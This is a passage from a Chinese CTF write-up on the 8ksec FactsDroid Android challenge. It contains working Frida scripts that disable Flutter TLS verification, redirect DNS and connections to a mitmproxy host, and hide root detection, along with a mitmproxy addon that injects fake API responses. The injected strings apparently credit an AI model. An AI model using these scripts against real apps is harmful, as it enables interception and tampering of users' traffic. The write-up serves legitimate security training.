                console.warn(`\n`)
                console.error(`[!] libFlutter was found, but ssl_verify_peer_cert could not be located`)
                console.error(`Please open an issue at https://github.com/NVISOsecurity/disable-flutter-tls-verification/issues`);
                console.warn(`\n`)
            }
            // Not really, but we give up
            TLSValidationDisabled = true
        }
    }
}

// Find and patch the method in memory to disable TLS validation
function findAndPatch(ranges, patterns, thumb) {
   
    ranges.forEach(range => {
        patterns.forEach(pattern => {
            var matches = Memory.scanSync(range.base, range.size, pattern);
            matches.forEach(match => {
                var info = DebugSymbol.fromAddress(match.address)
                if(info.name){
                    console.log(`[+] ssl_verify_peer_cert found at offset: ${info.name || match.address}`);
                }else{

                    console.log(`[+] ssl_verify_peer_cert found at location: ${match.address}`);
                }
                TLSValidationDisabled = true;
                hook_ssl_verify_peer_cert(match.address.add(thumb));
                console.log('[+] ssl_verify_peer_cert has been patched')
    
            });
            if(matches.length > 1){
                console.log('[!] Multiple matches detected. This can have a negative impact and may crash the app. Please open a ticket')
            }
        });
        
    });
    
    // Try again. disableTLSValidation will not do anything if TLSValidationDisabled = true
    setTimeout(disableTLSValidation, timeout);
}

function isFlutterRange(range){
    if(androidBypass) return true;

    var address = range.base
    var info = DebugSymbol.fromAddress(address)
    if(info.moduleName != null){
        if(info.moduleName.toLowerCase().includes("flutter")){
            return true;
        }
    }
    return false;
}

// Replace the target function's implementation to effectively disable the TLS check
function hook_ssl_verify_peer_cert(address) {
    Interceptor.replace(address, new NativeCallback((pathPtr, flags) => {
        return 0;
    }, 'int', ['pointer', 'int']));
}

```

执行

```bash
PS E:\ctf\8Ksec\FactsDroid.apk>  frida -U -W com.eightksec.factsdroid `
>>     -l E:\ctf\8Ksec\FactsDroid.apk\work\antiroot-channel.js `
>>     -l E:\ctf\8Ksec\FactsDroid.apk\work\disable-flutter-tls.js `
>>     --runtime=v8
     ____
    / _  |   Frida 17.8.0 - A world-class dynamic instrumentation toolkit
   | (_| |
    > _  |   Commands:
   /_/ |_|       help      -> Displays the help system
   . . . .       object?   -> Display information about 'object'
   . . . .       exit/quit -> Exit
   . . . .
   . . . .   More info at https://frida.re/docs/home/
   . . . .
   . . . .   Connected to Android Emulator 5554 (id=emulator-5554)
Waiting for spawn to appear...
Handling: Spawn(pid=3215, identifier="com.eightksec.factsdroid")
[chan] antiroot-channel loading
[+] Pattern version: Jan 26 2026
[+] Arch: x64
[+] Platform:  linux
[ ] Locating Flutter library 1/5
Spawned `com.eightksec.factsdroid`. Resuming main thread!
[Android Emulator 5554::re.compile('com.eightksec.factsdroid') ]-> [chan] FlutterJNI.handlePlatformMessage hooked
[chan] root_check inbound (replyId=6)
[chan] replied isRooted=false
[ ] Locating Flutter library 2/5
[+] Flutter library located
[+] ssl_verify_peer_cert found at offset: 0x7c4c99
[+] ssl_verify_peer_cert has been patched
```

# 让App连接到我的Burp/mitmproxy

接下来要解决的是怎么让App连接到我的Burp/mitmproxy

之前静态分析拿到的

host: uselessfacts\.jsph\.pl

path: /api/v2/facts/random

后续只需要处理这个请求

https://uselessfacts\.jsph\.pl/api/v2/facts/random

然后把域名流量导向我的代理，因为 Flutter 的 dart:io HttpClient 不稳定依赖 Android 系统代理，所以报告里采用：/system/etc/hosts把：uselessfacts\.jsph\.pl解析到你的 Windows 主机 IP。

这里用的是mitmproxy，先生成CA文件

```powershell
mitmdump --listen-port 38080 -q & sleep 5; kill $!
```

启动一次 mitmproxy，监听 38080，\-q 是安静模式。

计算Android的证书名

```powershell
HASH=$(openssl x509 -inform PEM -subject_hash_old -in ~/.mitmproxy/mitmproxy-ca-cert.pem -noout)
```

复制成 Android 要求的名字

```powershell
cp ~/.mitmproxy/mitmproxy-ca-cert.pem /tmp/$HASH.0
```

推送到手机/模拟器

```powershell
adb push /tmp/$HASH.0 /sdcard/
```

复制到系统证书目录

```powershell
adb shell "su -c 'mount -o rw,remount /; 
cp /sdcard/$$HASH.0 /system/etc/security/cacerts/; 
chmod 644 /system/etc/security/cacerts/$$HASH.0'"
```

其实证书安装是为了兼容一下

两个重要的脚本

mitm\-redirect\.js 的作用是：让 App 的网络连接先走到你本机 mitmproxy

```javascript
/*
 * mitm-redirect.js — Selective MITM redirect for FactsDroid (Flutter app).
 *
 * Goal: route only `uselessfacts.jsph.pl` traffic through the local
 * mitmproxy reverse listener, leaving everything else (Google Fonts,
 * etc.) alone — and defeat Flutter's BoringSSL cert pinning.
 *
 * Mechanism:
 *   1. Hook getaddrinfo() and resolve `uselessfacts.jsph.pl` to MITM_HOST.
 *   2. Hook connect(); if the target == MITM_HOST and port == 443,
 *      rewrite the port to MITM_PORT.
 *   3. Load companion script disable-flutter-tls.js to neutralise the
 *      Flutter cert-pinning check.
 *
 * Constraint compliance:
 *   - We do not change any bytes the app *sends*. SNI, Host header, and
 *     request body are exactly what the app would have transmitted to
 *     the real backend; only the destination IP/port are rewritten so
 *     mitmproxy in reverse-mode can interpose.
 */

const TARGET_HOST = "uselessfacts.jsph.pl";
const MITM_HOST   = "192.168.124.18"; // host where mitmdump listens
const MITM_PORT   = 443;              // mitmproxy reverse-mode port

function ipToBytes(ip) {
  return ip.split('.').map(b => parseInt(b, 10) & 0xff);
}
const MITM_BYTES = ipToBytes(MITM_HOST);

function readSockaddrFamily(p) {
  try {
    if (!p || p.isNull()) return 0;
    const family = p.readU16();
    return (family === 2 || family === 10) ? family : 0;
  } catch (e) {
    return 0;
  }
}

function findAiAddr(ai) {
  // Android/Bionic and glibc place ai_addr/ai_canonname differently on
  // 64-bit builds. Pick the pointer that actually references a sockaddr.
  const candidates = Process.pointerSize === 8 ? [24, 32] : [20, 24];
  for (const off of candidates) {
    try {
      const p = ai.add(off).readPointer();
      const family = readSockaddrFamily(p);
      if (family !== 0) return { ptr: p, off: off, family: family };
    } catch (e) {}
  }
  return null;
}

function findExport(modName, sym) {
  // Frida 17 deprecates Module.findExportByName(null, sym).
  if (typeof Module.getGlobalExportByName === 'function') {
    try { return Module.getGlobalExportByName(sym); } catch (e) {}
  }
  if (modName) {
    try { return Module.getExportByName(modName, sym); } catch (e) {}
  }
  for (const m of Process.enumerateModules()) {
    try {
      const p = Module.getExportByName(m.name, sym);
      if (p && !p.isNull()) return p;
    } catch (e) {}
  }
  return null;
}

// ----- 1. hook getaddrinfo to coerce DNS for the target host -----
function hookGetaddrinfo() {
  const gai = findExport(null, 'getaddrinfo');
  if (!gai) { console.log('[mitm] getaddrinfo not found'); return; }

  Interceptor.attach(gai, {
    onEnter: function (args) {
      this.host = args[0].isNull() ? null : args[0].readUtf8String();
      this.res  = args[3];
    },
    onLeave: function (retval) {
      if (retval.toInt32() !== 0) return;
      if (!this.host || this.host !== TARGET_HOST) return;
      // Walk the addrinfo* linked list at *res, replace each sockaddr.
      let p = this.res.readPointer();
      while (!p.isNull()) {
        // struct addrinfo: int flags; int family; int socktype;
        //                  int protocol; socklen_t addrlen;
        //                  struct sockaddr *addr;
        //                  char *canonname;
        //                  struct addrinfo *next;
        const aiAddr = findAiAddr(p);
        const addrPtr = aiAddr ? aiAddr.ptr : ptr(0);
        const family = aiAddr ? aiAddr.family : p.add(4).readInt();
        // sockaddr_in: family(2) port(2) addr(4)
        if (family === 2 && !addrPtr.isNull()) {
          // keep port; rewrite v4 address
          p.add(4).writeInt(2);
          for (let i = 0; i < 4; i++) addrPtr.add(4 + i).writeU8(MITM_BYTES[i]);
        } else if (family === 10 && !addrPtr.isNull()) {
          // Convert IPv6 results into IPv4 sockaddr_in results. Keeping an
          // AF_INET6 family with an IPv4-mapped address can bypass the simple
          // IPv4 connect() rewrite and may not hit a Windows IPv4 listener.
          p.add(4).writeInt(2);      // ai_family = AF_INET
          p.add(16).writeU32(16);    // ai_addrlen = sizeof(sockaddr_in)
          addrPtr.writeU16(2);       // sockaddr.sa_family = AF_INET
          for (let i = 0; i < 4; i++) addrPtr.add(4 + i).writeU8(MITM_BYTES[i]);
        }
        p = p.add(Process.pointerSize === 8 ? 40 : 32).readPointer(); // ai_next offset
      }
      console.log(`[mitm] getaddrinfo("${this.host}") -> ${MITM_HOST}`);
    }
  });
  console.log('[mitm] getaddrinfo hook installed');
}

// ----- 2. hook connect to remap port 443 -> MITM_PORT for MITM_HOST -----
function hookConnectSymbol(sym) {
  const connectPtr = findExport('libc.so', sym);
  if (!connectPtr) return false;
  Interceptor.attach(connectPtr, {
    onEnter: function (args) {
      const sa = args[1];
      if (sa.isNull()) return;
      const family = sa.readU16();
      if (family === 2) {
        const port = ((sa.add(2).readU8() << 8) | sa.add(3).readU8()) & 0xffff;
        const ip = `${sa.add(4).readU8()}.${sa.add(5).readU8()}.${sa.add(6).readU8()}.${sa.add(7).readU8()}`;
        if (port === 443) console.log(`[mitm] ${sym}() IPv4 ${ip}:${port}`);
        if (ip === MITM_HOST && port === 443) {
          sa.add(2).writeU8((MITM_PORT >> 8) & 0xff);
          sa.add(3).writeU8(MITM_PORT & 0xff);
          console.log(`[mitm] ${sym}() ${ip}:443 -> ${MITM_HOST}:${MITM_PORT}`);
        }
      } else if (family === 10) {
        const port = ((sa.add(2).readU8() << 8) | sa.add(3).readU8()) & 0xffff;
        if (port === 443) {
          const mapped =
            sa.add(8).readU8() === 0 && sa.add(9).readU8() === 0 &&
            sa.add(10).readU8() === 0 && sa.add(11).readU8() === 0 &&
            sa.add(12).readU8() === 0 && sa.add(13).readU8() === 0 &&
            sa.add(14).readU8() === 0 && sa.add(15).readU8() === 0 &&
            sa.add(16).readU8() === 0 && sa.add(17).readU8() === 0 &&
            sa.add(18).readU8() === 0xff && sa.add(19).readU8() === 0xff;
          if (mapped) {
            const ip = `${sa.add(20).readU8()}.${sa.add(21).readU8()}.${sa.add(22).readU8()}.${sa.add(23).readU8()}`;
            console.log(`[mitm] ${sym}() IPv6-mapped ${ip}:${port}`);
          } else {
            console.log(`[mitm] ${sym}() IPv6 port ${port}`);
          }
        }
      }
    }
  });
  console.log(`[mitm] ${sym} hook installed`);
  return true;
}

function hookConnect() {
  let hooked = false;
  ['connect', '__connect'].forEach(sym => {
    try { hooked = hookConnectSymbol(sym) || hooked; } catch (e) {}
  });
  if (!hooked) console.log('[mitm] connect not found');
}

setImmediate(() => {
  try { hookGetaddrinfo(); } catch (e) { console.log('[mitm] gai hook err: ' + e); }
  try { hookConnect(); }     catch (e) { console.log('[mitm] conn hook err: ' + e); }
  try { hookRootDetection(); } catch (e) { console.log('[mitm] rd hook err: ' + e); }
  console.log('[mitm] redirect ready (target=' + TARGET_HOST + ' -> ' + MITM_HOST + ':' + MITM_PORT + ')');
});

// ----- 3. defeat root detection by hiding su / magisk artifacts -----
function hookRootDetection() {
  const SU_PATHS = [
    '/system/bin/su', '/system/xbin/su', '/sbin/su', '/su/bin/su',
    '/system/app/Superuser.apk', '/system/etc/init.d/99SuperSUDaemon',
    '/system/xbin/busybox', '/system/bin/busybox',
    '/sbin/.magisk', '/sbin/magisk', '/data/adb/magisk',
    '/dev/.magisk.unblock', '/dev/com.koushikdutta.superuser.daemon',
  ];
  const isSuPath = (p) => p && SU_PATHS.includes(p);

  function wrap(name, idx) {
    const fn = findExport(null, name);
    if (!fn) return;
    Interceptor.attach(fn, {
      onEnter: function (args) {
        try {
          const p = args[idx].readUtf8String();
          this.faked = isSuPath(p);
          if (this.faked) console.log(`[antiroot] ${name}("${p}") -> ENOENT`);
        } catch (e) {}
      },
      onLeave: function (retval) {
        if (this.faked) {
          retval.replace(ptr(-1));
        }
      }
    });
  }
  ['access', 'stat', 'lstat', 'fstatat', 'open', 'openat', 'faccessat'].forEach(n => {
    try { wrap(n, n.includes('at') && n !== 'fstatat' ? 1 : 0); } catch (e) {}
  });

  // also fake `which su` / shell-based checks: make Process_Start return failure
  // for command lines containing "su" — only if we observe them.
  const cmdHook = findExport(null, 'system');
  if (cmdHook) {
    Interceptor.attach(cmdHook, {
      onEnter: function (args) {
        try {
          const cmd = args[0].readUtf8String();
          if (cmd && /\bsu\b|magisk|busybox/.test(cmd)) {
            this.faked = true;
            console.log(`[antiroot] system("${cmd}") -> 1`);
          }
        } catch (e) {}
      },
      onLeave: function (retval) {
        if (this.faked) retval.replace(ptr(1));
      }
    });
  }
  console.log('[antiroot] file/exec hooks installed');
}

```

```powershell
它在 App 进程里用 Frida hook 两个 native 网络函数：

  getaddrinfo()
  connect()

  具体做三件事：

  1. 看到 App 解析：

  uselessfacts.jsph.pl

  就把解析结果改成：

  192.168.124.18

  也就是你的 Windows 主机 IP。

  2. 看到 App 准备连接：

  192.168.124.18:443

  就确认这个连接是要走 mitmproxy。

  3. 修正 Android addrinfo / IPv6 情况，保证 App 不会绕过重定向继续连真实服务器 IP。

  所以它解决的是：

  App 原本 -> uselessfacts.jsph.pl:443
  改成
  App -> 你的电脑 mitmproxy:443
```

tamper\.py 是 mitmproxy 的插件脚本

```python
"""
mitmproxy addon — tamper FactsDroid responses only.

Constraints from the challenge:
  * Do NOT modify the request that the app sends to the backend.
  * The backend (uselessfacts.jsph.pl) is out of scope; only the response
    flowing back to the app may be altered.

Strategy:
  * `request()` hook: read-only — just snapshot the request and prove we
    never touch it.  No mutations of method/path/headers/body.
  * `response()` hook: rewrite the JSON body so the app prints
    attacker-controlled content.  The genuine fact never reaches the app.
"""
import hashlib
import json
from itertools import cycle
from mitmproxy import http, ctx

# A rotating selection of injected payloads.
INJECTED_FACTS = [
    "[MITM] PWNED by Claude. This fact was injected on the wire — the real backend never sent it.",
    "[MITM] If you can read this in FactsDroid, the response was tampered before delivery.",
    "[MITM] The real fact was suppressed. You are seeing arbitrary attacker content.",
    "[MITM] Network-layer compromise: backend → mitmproxy → FactsDroid (rewrite).",
]
_facts_iter = cycle(INJECTED_FACTS)

def _request_fingerprint(req: http.Request) -> str:
    """Build a stable fingerprint over every part of the HTTP request.
    If we touch anything between app→mitm and mitm→upstream, this hash
    will change and the proof breaks."""
    h = hashlib.sha256()
    h.update(req.method.encode())
    h.update(b"\x00")
    h.update(req.path.encode())
    h.update(b"\x00")
    # Headers, sorted to be stable across mitmproxy's internal reordering.
    for k, v in sorted(req.headers.items(True)):
        h.update(k.encode().lower())
        h.update(b":")
        h.update(v.encode())
        h.update(b"\n")
    h.update(b"\x00")
    h.update(req.raw_content or b"")
    return h.hexdigest()[:16]

def request(flow: http.HTTPFlow) -> None:
    """READ-ONLY. Logs request fingerprint then returns; no mutation."""
    if flow.request.host != "uselessfacts.jsph.pl":
        return
    if "/api/v2/facts/random" not in flow.request.path:
        return

    fp = _request_fingerprint(flow.request)
    flow.metadata["fp_in"] = fp
    ctx.log.info(
        f"[passthrough] app -> mitm: {flow.request.method} "
        f"{flow.request.path} headers={dict(flow.request.headers)} "
        f"body_len={len(flow.request.raw_content or b'')} fp={fp}"
    )

def requestheaders(flow: http.HTTPFlow) -> None:
    pass

def response(flow: http.HTTPFlow) -> None:
    if flow.request.host != "uselessfacts.jsph.pl":
        return
    if "/api/v2/facts/random" not in flow.request.path:
        return

    # Re-fingerprint the request *now*, after mitmproxy has emitted it
    # upstream. If we never modified it, the hash equals the one we took
    # in request() — so backend received the same request the app sent.
    fp_now = _request_fingerprint(flow.request)
    fp_in = flow.metadata.get("fp_in", "<missing>")
    same = "MATCH" if fp_now == fp_in else "DIVERGED"
    ctx.log.info(
        f"[passthrough] mitm -> backend: fp_in={fp_in} fp_out={fp_now} {same}"
    )

    try:
        body = json.loads(flow.response.get_text() or "{}")
    except Exception as exc:
        ctx.log.warn(f"[tamper] response not JSON: {exc}")
        return

    original = body.get("text", "<no text>")
    body["text"] = next(_facts_iter)
    body["source"] = "claude-mitm"
    body["source_url"] = "https://attacker.local/injected"
    body["language"] = "en"
    body["permalink"] = "https://attacker.local/injected"

    flow.response.set_text(json.dumps(body))
    flow.response.headers["content-type"] = "application/json; charset=utf-8"
    if "content-length" in flow.response.headers:
        del flow.response.headers["content-length"]

    ctx.log.info(f"[tamper] suppressed real fact: {original!r}")
    ctx.log.info(f"[tamper] delivered injected fact: {body['text']!r}")

```

```powershell
mitmproxy 收到 App 请求后，它做两件事：

  1. request(flow)

  只记录请求，不修改请求。

  它会计算请求指纹：

  fp = _request_fingerprint(flow.request)

  作用是证明：

  App 发出的请求
  和
  mitmproxy 转发给后端的请求
  是一致的
  
  所以日志里会出现：

  MATCH

  这符合挑战限制：不能攻击后端，不能篡改请求。

  2. response(flow)

  只修改后端返回给 App 的响应。

  它把真实返回的 JSON 解析出来：

  body = json.loads(flow.response.get_text() or "{}")

  然后改掉里面的 text 字段：

  body["text"] = next(_facts_iter)

  也就是把原本的 fact 换成：

  [MITM] ...

  最后重新写回响应：

  flow.response.set_text(json.dumps(body))

  所以它解决的是：

  后端真实响应 -> mitmproxy 修改 text 字段 -> App 显示假内容
```

最终效果






网址：https://academy\.8ksec\.io/path\-player?courseid=android\-application\-exploitation\-challenges\&unit=681ad36a3585c25a8c0661daUnit


